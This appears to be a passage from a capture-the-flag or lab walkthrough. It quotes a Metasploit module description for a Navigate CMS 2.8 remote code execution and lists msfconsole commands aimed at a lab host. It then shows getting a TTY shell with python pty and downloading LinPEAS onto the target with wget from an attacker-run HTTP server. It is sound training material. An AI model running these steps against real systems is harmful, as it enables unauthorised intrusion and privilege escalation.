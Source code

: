 > This module exploits insufficient sanitization in the database::protect method, of Navigate CMS versions 2.8 and prior, to bypass authentication. The module then uses a path traversal vulnerability in navigate_upload.php that allows authenticated users to upload PHP files to arbitrary locations. Together these vulnerabilities allow an unauthenticated attacker to execute arbitrary PHP code remotely. This module was tested against Navigate CMS 2.8. 

```bash
msfconsole
search navigate cms

use exploit/multi/http/navigate_cms_rce
set rhosts 192.168.31.129
set vhost blackpearl.tcm
show targets
run
```

```bash
# meterpreter > 
shell

whoami
```

#### TTY Shell

- Generate a TTY Shell
  - [Spawning a TTY Shell | SecWiki](https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell)

```bash
which python
	/usr/bin/python

python -c 'import pty; pty.spawn("/bin/bash")'
```

![](.gitbook/assets/2024-07-14_19-38-26_634.png)

#### Privesc LinPEAS

```bash
# Kali
cd ~/tools
python3 -m http.server 80
```

```bash
# Target reverse shell
cd /tmp
wget http://192.168.31.131/linpeas.sh
```

- Look for username and password, bottom up (red, yellow stuff)

![](.gitbook/assets/2024-07-14_19-43-46_635.png)
